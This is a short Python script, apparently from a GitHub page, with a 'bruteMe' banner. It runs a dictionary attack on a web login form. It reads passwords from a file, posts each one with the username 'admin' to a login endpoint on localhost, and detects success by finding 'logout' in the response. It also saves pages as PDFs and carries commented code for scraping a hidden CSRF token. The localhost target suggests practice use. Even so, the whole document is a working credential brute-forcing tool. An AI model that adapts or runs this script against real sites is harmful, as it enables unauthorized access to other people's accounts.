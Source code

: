 
'''

                      _                _       __  __      
                     | |__  _ __ _   _| |_ ___|  \/  | ___ 
                     | '_ \| '__| | | | __/ _ \ |\/| |/ _ \
                     | |_) | |  | |_| | ||  __/ |  | |  __/
                     |_.__/|_|   \__,_|\__\___|_|  |_|\___|
                                                           

'''
# importing

# sending receiving http request
import requests

# converting html file to pdf
import pdfkit

#for terminal color
import colorama
import termcolor

#calling the colorama init method
colorama.init()

with requests.session() as sess:
    url = "http://127.0.0.1/bruteMe"

    # save the screenshot of the given url

    file = open("screenshot.html", "w").write(sess.get(url=url).text)

    # converting html file to pdf of the website
    pdfkit.from_file("screenshot.html", "screenshot.pdf")

    # dictionary attack

    # open the file containing list of passwords
    passwdFile = open("pass.txt", "r")

    # iterate from all the way up to the real password
    for passw in passwdFile:
        passw = passw.strip("\n")

        #data to be passed as form data
        data = {
            'user': 'admin',
            'pass': passw,
            'login': 'submit'
        }
        
        #if the login implemented csrf token mechanism import bs4 then uncomment the follwing code
        
        #soup = bs4.BeautifulSoup(resp.content, 'html5lib')
        #data['nameOfToken'] = soup.find('input', attrs={'name': 'nameOfToken'})['value'] --->commented out is for things that is input being hidden (eg; <input type="hidden"/>)
    
        
        
        resp = sess.post(url=url+"/log.php", data=data)

        # as here status_code is same for every username and password combination
        # so we are checking whether this specific word is in response text or not because this can validate whether we have successfully logged in or not
        if "logout" in resp.text:
            print(termcolor.colored(" ".join(list(("success",str(resp.status_code), data['user'], data['pass']))), color='blue'))

             # save the screenshot of the webpage after logged in

            file=open("save.html", "w").write(resp.text)

            pdfkit.from_file("save.html", "save.pdf")

            break

        else:
            print(termcolor.colored(" ".join(list(("unsuccess",str(resp.status_code), data['user'], data['pass']))), color='red'))




